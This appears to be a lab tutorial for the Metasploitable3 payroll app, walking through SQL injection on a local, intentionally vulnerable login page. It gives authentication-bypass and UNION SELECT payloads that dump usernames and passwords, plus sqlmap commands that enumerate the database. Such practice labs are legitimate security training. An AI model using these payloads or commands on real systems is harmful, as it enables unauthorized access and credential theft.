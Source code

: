 <b>For this tutorial you will need the following tools</b>

* Browser (Prefarably Mozilla)
* Burpsuite
* SQLMap

1. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | admin    |
   | PASSWORD  | admin    |  

RESULTS: The webpage will display your username and no content
 
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-1.png "STEP 1")
   
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-1.png "Result 1")
2. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | '        |
   | PASSWORD  | admin    |  

RESULTS: The webpage will be blank
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-2.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-2.png "RESULT 2")
   
3. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | ' or 1;#'|
   | PASSWORD  | admin    |  

RESULTS: The web page will return all the user content
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-3.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-3.png "RESULT 2")
4. <b>Use SQLMap to extract the database using the following commands:</b>

   ```
   sqlmap -u http://127.0.0.1:7000/payroll_app.php --data="user=admin&password=admin&s=OK" -p user --method POST
   ```

RESULTS: SQLMap will identify whether the web application is vulnerable to SQL Injection
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-4-sqlmap.png "STEP 4")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-4-1.png "RESULT 4")
   
5. <b>Use SQLMap to extract the columns in the table</b>

   ```
   sqlmap -u http://127.0.0.1:7000/payroll_app.php --data="user=admin&password=admin&s=OK" -p user --method POST --columns
   ```

RESULTS: SQLMap will retrieve the columns on the application tables
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-5-1.png "STEP 5")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-5-2.png "RESULT 5")   

6. <b>Use the column names to retrieve the user credentials:</b>

   | Field     | Value                                       |
   | --------- |:-------------------------------------------:|
   | USERNAME  | ' or 1 union select 1,username,password,1;#'|
   | PASSWORD  | admin                                       |  

RESULTS: The web page will return the user credentials
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-6.png "STEP 5")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-6-1.png "RESULT 6")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-6-2.png "RESULT 6")  
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-6-3.png "RESULT 6")   

